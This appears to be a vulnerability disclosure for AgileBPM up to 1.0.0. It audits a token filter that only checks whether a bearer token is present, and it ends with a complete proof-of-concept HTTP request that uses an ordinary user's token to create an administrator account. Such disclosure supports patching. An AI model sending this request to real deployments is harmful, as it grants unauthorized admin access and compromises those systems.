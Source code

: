 ## 0x01 Introduction
<font style="color:rgb(30, 32, 36);">Shenzhen Dashi Tongzhou Information Technology Co., Ltd. is a diversified information technology company, focusing on software development, system integration and related technical services, committed to providing customers with a full range of IT solutions. AgileBPM is a powerful process platform, focusing on business online, automation!</font>

## 0x02 Vulnerability Overview
<font style="color:rgb(30, 32, 36);">AgileBPM has a vertical override vulnerability that allows an attacker to create an administrator account with common user rights and obtain admin permissions.</font>

## 0x03漏洞版本
<font style="color:rgb(30, 32, 36);">AgileBPM <= 1.0.0</font>

## 0x04代码审计
In the doFilter method of \agile-bpm-basic-master\ab-auth\ab-auth-spring-security-oauth2\src\main\java\com\dstz\auth\filter\AuthorizationTokenCheckFilter.java, only the validation of whether the token is empty has been performed.

```plain
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
    HttpServletRequest req = (HttpServletRequest) request;

    // Handle anonymous interfaces
    if (this.isIngores(req)) {
        chain.doFilter(request, response);
        return;
    }

    String token = ServletUtil.getHeader(req, AUTHORIZATION, StrPool.EMPTY);
    // Check if the token is empty or only contains whitespace, or if it does not start with OAuth2AccessToken.BEARER_TYPE (usually "Bearer ").
    if (StrUtil.isBlank(token) || !token.trim().startsWith(OAuth2AccessToken.BEARER_TYPE)) {

        // Set the character encoding of the response to UTF-8 to ensure proper handling of response content characters.
        response.setCharacterEncoding(StandardCharsets.UTF_8.displayName());

        // Use the write method of the ServletUtil class to write a JSON-formatted failure message to the response,
        // with content generated by ApiResponse.fail. NO_AUTH_TOKEN.getCode() and NO_AUTH_TOKEN.getMessage() respectively
        // fetch the error code and message, and the response content type is set to application/json.
        ServletUtil.write((HttpServletResponse) response, JsonUtils.toJSONString(ApiResponse.fail(NO_AUTH_TOKEN.getCode(), NO_AUTH_TOKEN.getMessage())), MediaType.APPLICATION_JSON_VALUE);
    } else {
        // Continue executing the filter chain, calling the next filter or target resource, passing the request and response objects.
        chain.doFilter(request, response);
    }
}

```

Filterchain-class does not verify the permission level and expiration of the token.

![](https://cdn.nlark.com/yuque/0/2024/png/43117778/1733152561222-440b370b-0d88-4bf0-b2fd-43b3e30f12ed.png)

## **0x05 The vulnerability reappears**
Source code: [https://gitee.com/agile-bpm/agile-bpm-basic](https://gitee.com/agile-bpm/agile-bpm-basic)

Create the test account as a common user

![](https://cdn.nlark.com/yuque/0/2024/png/43117778/1733135149599-0e6bb5c8-e2eb-4957-a144-bea607dbdf23.png)

Login test does not have the user creation function

![](https://cdn.nlark.com/yuque/0/2024/png/43117778/1733135207724-597321dd-4164-4e38-9223-d98613299764.png)

The token is obtained by capturing packets

![](https://cdn.nlark.com/yuque/0/2024/png/43117778/1733135283702-0270b97a-7541-4dae-9f0a-20dbb68d0cfd.png)

roleid is a fixed value

![](https://cdn.nlark.com/yuque/0/2024/png/43117778/1733136697628-400c6a60-0741-4b81-932e-7cc752c60e37.png)

Use the token of test to create an administrator account.

![](https://cdn.nlark.com/yuque/0/2024/png/43117778/1733152506911-955592f4-7d49-42c9-b8b3-5d7d024da848.png)

If you log in to user1, you can find that it has the permission of admin

![](https://cdn.nlark.com/yuque/0/2024/png/43117778/1733136128851-d8bf802b-f503-4338-85a0-05d4007f8b9b.png)

poc：

```plain
POST /api/ab-org/user/saveUserDto HTTP/1.1
Host: 192.168.187.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.187.129/org/user/userEdit
Content-Type: application/json;charset=UTF-8
Authorization: Bearer 5g3uN8tUtgMI4_Yz8mvwuIwJNvQ
Content-Length: 305
Origin: http://192.168.187.129
Connection: close
Priority: u=0

{"id":"","fullname":"user1","account":"user1","password":"123456","status":1,"orgRelationList":[{"type":"userRole","roleId":"1610480371538956288","roleName":""},{"type":"userRole","roleId":"1605464389708218368","roleName":""},{"type":"userRole","roleId":"1605464158287495168","roleName":""}],"address":""}
```





## 0x06 Repair Solution
Add Authorization authentication.

